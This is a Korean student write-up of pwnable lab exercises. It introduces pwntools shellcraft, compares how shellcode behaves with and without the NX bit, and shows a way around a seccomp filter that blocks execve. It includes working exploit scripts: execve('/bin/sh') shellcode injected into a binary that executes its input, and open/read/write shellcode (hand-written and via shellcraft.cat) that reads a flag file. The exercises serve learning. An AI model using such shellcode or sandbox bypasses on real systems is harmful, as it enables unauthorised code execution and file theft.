<a href="https://poiri3r.tistory.com/12">shellcraft 기본 명령어</a>
<table class="simple-table" dir="ltr" id="419ccf0f-0989-8021-94cf-db7f4c75ba54"><thead class="simple-table-header"><tr dir="ltr" id="419ccf0f-0989-807e-8b9e-f973e51ded4f"><th class="simple-table-header-color simple-table-header" id="^xVT" style="width:259.65625px">명령어</th><th class="simple-table-header-color simple-table-header" id="MC&gt;Y" style="width:382.65625px">뜻</th></tr></thead><tbody><tr dir="ltr" id="419ccf0f-0989-806e-9ffa-d7004fb153a0"><td class="" id="^xVT" style="width:259.65625px">shellcraft.sh()</td><td class="" id="MC&gt;Y" style="width:382.65625px">x86 아키텍처에서 /bin/sh를 실행하는 쉘 코드 생성</td></tr><tr dir="ltr" id="419ccf0f-0989-805b-882f-ff51f84508d0"><td class="" id="^xVT" style="width:259.65625px">shellcraft.execve(”bin/ls”, [”/bin/ls”], 0)</td><td class="" id="MC&gt;Y" style="width:382.65625px">ls 실행</td></tr><tr dir="ltr" id="419ccf0f-0989-803f-b8ee-cd0942b316c1"><td class="" id="^xVT" style="width:259.65625px">shellcraft.open(”flag.txt”, 0)</td><td class="" id="MC&gt;Y" style="width:382.65625px">open syscall로 flag.txt 열기</td></tr><tr dir="ltr" id="419ccf0f-0989-804a-9bef-ffbe76e5c35e"><td class="" id="^xVT" style="width:259.65625px">shellcraft.read(3, “esp”, 100)</td><td class="" id="MC&gt;Y" style="width:382.65625px">fd=3에서 esp 레지스터 안의 내용을 100bit만큼 읽기</td></tr><tr dir="ltr" id="419ccf0f-0989-80b1-8a94-fad08eb9a778"><td class="" id="^xVT" style="width:259.65625px">shellcraft.write(1, “esp”, 100)</td><td class="" id="MC&gt;Y" style="width:382.65625px">esp 안의 내용을 100byte만큼 쓰기</td></tr></tbody></table>
shellcraft.sh()라는… x86 아키텍처에서 /bin/sh를 실행하는 쉘 코드 생성해주는 명령어가 있다고 합니다…
<h4 class="" dir="auto" id="414ccf0f-0989-8047-86cb-cff5f3d01e47">32bit</h4>
shellcraft.sh()를 사용하여 작성한 코드는 다음과 같습니다.
<pre class="code code-wrap" data-notion-code-syntax="python" id="419ccf0f-0989-809e-927b-ed96596fbffe"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'i386'

shellcode = shellcraft.sh()

print(shellcode)</code></pre>
코드를 실행하면 제가 이전 실습에서 적었던 쉘코드가 손쉽게 나옵니다.
<figure class="image" data-notion-image="image%206.png" dir="ltr" id="419ccf0f-0989-80d8-96df-f80211853a55"></figure>
얘가 짱이네여
<h4 class="" dir="auto" id="414ccf0f-0989-80d8-9e69-db3119c698b4">64bit</h4>
64bit 같은 경우 아키텍처만 arm64로 바꿔주면 됩니다.
<pre class="code code-wrap" data-notion-code-syntax="python" id="419ccf0f-0989-80a7-b4e5-c838a700f5c2"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'arm64'

shellcode = shellcraft.sh()

print(shellcode)</code></pre>
코드 실행 결과는 다음과 같습니다.
<figure class="image" data-notion-image="image%207.png" dir="ltr" id="419ccf0f-0989-8094-9ebb-c63462d51f03"></figure><h2 class="" dir="auto" id="40dccf0f-0989-801c-8b5f-f69d5ecd979d">실습 2 - NX bit의 유무와 쉘코드</h2>
NX bit(no execute bit, 실행 방지 비트)란, 메모리 보호 기법 중 하나입니다. 메모리 영역에 실행 권한을 주지 않음으로써 메모리를 보호하는 기법입니다.

<a href="https://poiri3r.tistory.com/12">https://poiri3r.tistory.com/12</a>

<a href="https://minii22.tistory.com/61">https://minii22.tistory.com/61</a>

<a href="https://c0wb3ll.tistory.com/entry/%EB%A9%94%EB%AA%A8%EB%A6%AC-%EB%B3%B4%ED%98%B8-%EA%B8%B0%EB%B2%95-NX-Bit">https://c0wb3ll.tistory.com/entry/%EB%A9%94%EB%AA%A8%EB%A6%AC-%EB%B3%B4%ED%98%B8-%EA%B8%B0%EB%B2%95-NX-Bit</a>

<mark class="highlight-gray" data-notion-highlight="gray">32bit로 선정</mark>

기본적으로 주어진 shell_32 바이너리 파일에 걸린 보호 기법을 <code>checksec --file=shell_32</code> 로 확인해보았습니다.
<figure class="image" data-notion-image="image%208.png" dir="ltr" id="419ccf0f-0989-80d2-b6d8-e5c417cd9757"></figure>
NX bit가 disabled 되어 있습니다.

실습 1번에서 해당 바이너리로 쉘을 얻었으므로, shell.c를 NX bit 활성화하여 컴파일한 후 쉘 획득을 시도한 후 비교해보겠습니다.

일반적으로 컴파일하듯 <code>gcc -o [생성할 파일명] [c 파일]</code> 로 컴파일 해주면 NX bit가 활성화된 바이너리를 생성할 수 있습니다.
<figure class="image" data-notion-image="image%209.png" dir="ltr" id="419ccf0f-0989-802a-b881-de646589a563"></figure>
shell_nx 라는 이름의 바이너리를 생성했습니다.

실습 1번에서 사용한 코드를 대상 파일만 shell_nx로 바꿔 그대로 사용하겠습니다.
<pre class="code code-wrap" data-notion-code-syntax="python" id="419ccf0f-0989-80b5-9db7-dbd9094675ba"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'i386' # x86 아키텍처의 32비트 기계어를 생성

p = process('./shell_nx')

code = """
mov edx, 0x0
mov ecx, 0x0

push edx
push 0x68732f2f
push 0x6e69622f

mov ebx, esp
mov eax, 0xb
int 0x80"""

p.sendafter(b'Your Code: ', asm(code))
p.interactive()</code></pre>
코드를 실행하면 쉘 명령어 입력칸이 나옵니다.
<figure class="image" data-notion-image="image%2010.png" dir="ltr" id="419ccf0f-0989-80d3-8613-c521a3830aaf"></figure>
쉘을 얻은 건가? 싶어서 명령어를 입력해봤는데 명령어가 실행되지 않고 종료되었습니다.

NX bit가 활성화된 바이너리이므로, 
<figure class="image" data-notion-image="image%2011.png" dir="ltr" id="419ccf0f-0989-8044-8e32-e93a5577129c"></figure>
shell_32 바이너리(NX bit 비활성화) 대상으로 vmmap 명령어를 통해 프로세스의 가상 메모리 영역에 대한 권한을 볼 수 있습니다…?
<figure class="image" data-notion-image="image%2012.png" dir="ltr" id="419ccf0f-0989-804f-9659-c9811e4b6cf2"></figure>
얘는 shell_nx 바이너리(NX bit 활성화)

같은 c 파일에 대해 컴파일 했지만, 위에 건 NX bit가 비활성화된 바이너리, 밑은 NX bit가 활성화된 바이너리입니다. 눈에 띄는 차이는 가장 밑에 stack 영역에 대한 권한이 NX bit 비활성 프로세스에선 rwx(→ 스택 실행 허용) 전부 있으나 NX bit 활성 프로세스에선 rw-(→ 스택 실행 거부)만 있는 것입니다.

즉, NX bit 활성 프로세스는 stack 영역에 실행 권한이 없습니다. 없으면 뭐 어쩔 건데 샤갈 없어서 뭐. 부족하게 컸어?

<mark class="highlight-gray" data-notion-highlight="gray">페이징이란 뭘까… 가상 메모리와 물리 메모리를 매핑해주는 것… 왜 매핑해줄까. 프로그램은 실행되려면 램에 올라가야 함. 그래서 매핑해줌…? 이건 운영체제 내용입니다. 깊게 파지 말자.</mark>

<a href="https://rhei.me/blog/cse/virtual-memory">https://rhei.me/blog/cse/virtual-memory</a>

<a href="https://velog.io/@kyeun95/%EC%9A%B4%EC%98%81%EC%B2%B4%EC%A0%9C-%ED%8E%98%EC%9D%B4%EC%A7%95Paging%EC%9D%B4%EB%9E%80">https://velog.io/@kyeun95/%EC%9A%B4%EC%98%81%EC%B2%B4%EC%A0%9C-%ED%8E%98%EC%9D%B4%EC%A7%95Paging%EC%9D%B4%EB%9E%80</a>

<a href="https://hojunking.tistory.com/109">https://hojunking.tistory.com/109</a>

shell.c 코드를 다시 보겠습니다.
<pre class="code code-wrap" data-notion-code-syntax="c" id="419ccf0f-0989-80e8-8910-db0c1214f2ea"><code class="language-c" style="white-space:pre-wrap;word-break:break-all">#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;

void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
}

int main() {
  char buf[0x1000];

  init();

  write(1, "Your Code: ", 11);
  read(0, buf, 0x1000);

  ((void (*)())buf)();
}</code></pre>
위 코드에서 buf라는 문자열 변수는 main 함수 내에 선언된 지역 변수입니다. 스택 영역엔 지역 변수가 저장됩니다.

따라서, stack 영역의 권한이 쉘 코드 실행 여부에 영향을 준다고 판단했습니다.

NX bit가 비활성화된 프로세스인 경우 stack 영역의 권한이 rwx이므로 쉘 코드가 실행되고, NX bit가 활성화된 프로세스인 경우 stack 영역의 권한이 rw-이므로 쉘 코드가 실행되지 않는 것입니다.
<h2 class="" dir="auto" id="40dccf0f-0989-80c3-8185-da4b7a7a40ca">실습 3 - seccomp</h2><ul class="bulleted-list" dir="auto" id="419ccf0f-0989-80d4-9a1c-f3548a070f4f"><li style="list-style-type:disc"><code>sekurity_pwn_05/seccomp</code> 바이너리는 seccomp로 <code>execve</code>와 <code>execveat</code> syscall이 금지돼있지만, 실습 1과 같이 여전히 직접 어셈블리어를 작성하여 실행할 수 있다.</li></ul><ul class="bulleted-list" dir="auto" id="419ccf0f-0989-8026-a217-fdb318ebc409"><li style="list-style-type:disc">위 상황에서 플래그를 알아내야 한다.</li></ul><ul class="bulleted-list" dir="auto" id="419ccf0f-0989-8097-b3c6-d61731d2fc3b"><li style="list-style-type:disc">flag는 <code>/seKUrity/flag.txt</code>에 위치해있다.</li></ul><ul class="bulleted-list" dir="auto" id="419ccf0f-0989-802d-91c8-fce4abb3b07b"><li style="list-style-type:disc">위 문제를 본인이 직접 어셈블리어를 코딩하여 푼 Write-Up과 shellcraft를 이용한 Write-Up으로 총 두 가지 버전으로 작성한다.</li></ul>
<a href="https://jeongzero.oopy.io/06eebad5-8306-493f-9c6d-e7a04d5aacff">https://jeongzero.oopy.io/06eebad5-8306-493f-9c6d-e7a04d5aacff</a> → 오 seccomp 말고도 다른 정보들도 저장되어 있슴.

seccomp(secure computing)란, 린커널에서 제공하는 프로세스 샌드박싱 기법이라고 합니다. 음… 정해지지 않은 시스콜이 호출되면 바로 종료시킨다고 합니다.

seccomp.c 코드는 다음과 같습니다.
<pre class="code code-wrap" data-notion-code-syntax="c" id="419ccf0f-0989-8020-8934-da99f248ebb3"><code class="language-c" style="white-space:pre-wrap;word-break:break-all">// gcc -z execstack -o seccomp seccomp.c -lseccomp

#include &lt;stdio.h&gt;
#include &lt;seccomp.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;

void init() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
}

void seccomp() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) exit(0);

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);
  seccomp_load(ctx);
}

int main() {
  char buf[0x1000];

  init();
  seccomp();

  write(1, "Your Code: ", 11);
  read(0, buf, 0x1000);

  ((void (*)())buf)();
}</code></pre>
seccomp() 함수를 보겠습니다.
<pre class="code code-wrap" data-notion-code-syntax="c" id="419ccf0f-0989-8068-a8fd-fb9a72e8f503"><code class="language-c" style="white-space:pre-wrap;word-break:break-all">void seccomp() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) exit(0);

  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);
  seccomp_load(ctx);
} </code></pre>
scmp_filter_ctx라는 자료형으로 ctx라는 변수가 선언되었습니다.

scmp_filter_ctx 자료형은 filter context를 나타내는 핵심 자료형이라고 합니다. (뭔 말임) 오 시스콜 허용 여부에 대한 규칙을 담아두는 핸들러 (그게 뭔데)

간단히 말해… 시스템 콜 차단 규칙을 관리하는? 자료형.

ctx라는 변수로 시스템 콜 차단 규칙을 관리하겠다는 뜻.

<code>ctx = seccomp_init(SCMP_ACT_ALLOW);</code>
<ul class="bulleted-list" dir="auto" id="419ccf0f-0989-802d-806d-ebf25fa1a3f4"><li style="list-style-type:disc">새로운 seccomp 필터 초기화</li></ul><ul class="bulleted-list" dir="auto" id="419ccf0f-0989-80f6-a877-c606dec979ec"><li style="list-style-type:disc">SCMP_ACT_ALLOW : 시스템 콜 허용</li></ul><ul class="bulleted-list" dir="auto" id="419ccf0f-0989-807c-9d55-d09a1c482036"><li style="list-style-type:disc">즉, 이 명령줄은 시스템 콜을 기본적으로 허용한다는 뜻.</li></ul>
<code>if (ctx == NULL) exit(0);</code> 
<ul class="bulleted-list" dir="auto" id="419ccf0f-0989-80a2-b4c1-f9c10fde5557"><li style="list-style-type:disc">seccomp_init() 가 실패하면 NULL을 반환.</li></ul>
<code>seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);</code>
<ul class="bulleted-list" dir="auto" id="41accf0f-0989-80e9-90a1-c2fe6efc05a3"><li style="list-style-type:disc">seccmp_rule_add() : seccomp 필터에 규칙 추가</li></ul><ul class="bulleted-list" dir="auto" id="41accf0f-0989-8098-9d71-c13cd09984f4"><li style="list-style-type:disc">ctx : 규칙을 추가할 필터(대상)</li></ul><ul class="bulleted-list" dir="auto" id="41accf0f-0989-8015-9782-c1e1b7ea4268"><li style="list-style-type:disc">SCMP_ACT_KILL : 규칙에 해당되면 호출 스레드 종료</li></ul><ul class="bulleted-list" dir="auto" id="41accf0f-0989-80a2-9744-cfe5a896693d"><li style="list-style-type:disc">SCMP_SYS(execve) : execve 시스템 콜 지정</li></ul><ul class="bulleted-list" dir="auto" id="41accf0f-0989-806f-b23d-df05b19cfb95"><li style="list-style-type:disc">즉, execve 시스템 콜이 호출되면 해당 호출 스레드를 종료하는 규칙 추가</li></ul>
<code>seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);</code>
<ul class="bulleted-list" dir="auto" id="41accf0f-0989-8059-83c3-e217f56f03ce"><li style="list-style-type:disc">execveat 시스템 콜이 호출되면 해당 호출 스레드를 종료하는 규칙 추가</li></ul>
<code>seccomp_load(ctx);</code>
<ul class="bulleted-list" dir="auto" id="41accf0f-0989-8069-9044-f86208d0cbe2"><li style="list-style-type:disc">위에서 만든 규칙을 커널에 로드 → 필터 활성화</li></ul>
main 함수를 보겠습니다.

이전 실습에서 본 main 함수에서 seccomp()을 호출하는 부분이 추가되었습니다.
<pre class="code code-wrap" data-notion-code-syntax="python" id="41accf0f-0989-8037-9e45-c087ac2351db"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">int main() {
  char buf[0x1000];

  init();
  seccomp();

  write(1, "Your Code: ", 11);
  read(0, buf, 0x1000);

  ((void (*)())buf)();
}</code></pre>
seccomp() 필터가 적용되었는데, 이때 필터는 execve와 execveat가 실행되면 스레드가 종료되도록 하였습니다.

근데 저 시스템콜 차단하는 규칙을 만들었는데 왜 호출이 된다는 거임. 뭔가 우회하는 방법이 있나. execve랑 execveat 시스템 콜만 아니면 다른 시스템 콜은 허용되는 거 아님?

파일 입출력하는 다른 시스템 콜을 사용하도록 하자. open, read, write 함수들을 사용하여 ./seKUrity/flag.txt에 있는 파일 내용을 읽어보겠습니다.

[사전 작업] seccomp 바이너리 경로 기준으로 ./seKUrity/flag.txt 생성

파일 내용 : meow~
<figure class="image" data-notion-image="image%2013.png" dir="ltr" id="41accf0f-0989-8035-b61a-c28e1b3af51b"></figure><pre class="code code-wrap" data-notion-code-syntax="python" id="41accf0f-0989-801e-b915-c322fb63775e"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'amd64'

code = """
    sub rsp, 0x100

    /* open("./seKUrity/flag.txt", O_RDONLY) */
    lea rdi, [rip + flag_path]
    xor esi, esi
    xor edx, edx
    mov eax, 2
    syscall

    test rax, rax
    js done

    /* read(fd, rsp, 0x100) */
    mov edi, eax
    mov rsi, rsp
    mov edx, 0x100
    xor eax, eax
    syscall

    test eax, eax
    jle done

    /* write(1, rsp, bytes_read) */
    mov edx, eax
    mov edi, 1
    mov eax, 1
    mov rsi, rsp
    syscall

done:
    add rsp, 0x100
    ret

flag_path:
    .asciz "./seKUrity/flag.txt"
"""

payload = asm(code)

p = process('./seccomp')
p.sendafter(b'Your Code: ', payload)
p.interactive()</code></pre>
실행 결과 :
<figure class="image" data-notion-image="image%2014.png" dir="ltr" id="41accf0f-0989-806f-9364-d2e9ea66dcdf"></figure>
shellcraft 버전 코드
<pre class="code code-wrap" data-notion-code-syntax="python" id="41accf0f-0989-805b-81b1-c47d66c9409b"><code class="language-python" style="white-space:pre-wrap;word-break:break-all">from pwn import *

context.arch = 'amd64'

code = shellcraft.cat('./seKUrity/flag.txt')
code += shellcraft.exit(0)

payload = asm(code)

print(code)
print(disasm(payload))
print(f"Shellcode length: {len(payload)}")

p = process('./seccomp')

p.sendafter(b'Your Code: ', payload)

p.interactive()</code></pre>
결과 :
<figure class="image" data-notion-image="image%2015.png" dir="ltr" id="41accf0f-0989-8091-b6a8-fb20eabc222f"></figure>

</article>

